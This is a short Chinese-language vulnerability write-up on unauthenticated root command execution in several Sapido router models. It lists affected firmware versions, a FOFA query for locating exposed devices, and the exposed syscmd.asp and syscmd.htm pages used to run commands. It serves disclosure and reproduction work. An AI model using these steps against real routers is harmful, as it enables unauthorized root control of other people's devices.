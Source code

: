 # Sapido 多款路由器 远程命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

<a-checkbox checked>BR270n-v2.1.03</a-checkbox></br>

<a-checkbox checked>BRC76n-v2.1.03</a-checkbox></br>

<a-checkbox checked>GR297-v2.1.3</a-checkbox></br>

<a-checkbox checked>RB1732-v2.0.43</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Sapido-路由器"</a-checkbox></br>

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行



![img](../../../.vuepress/public/img/sa-1.png)



访问目标:



```plain
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```



![img](../../../.vuepress/public/img/sa-2.png)



直接输入就可以命令执行了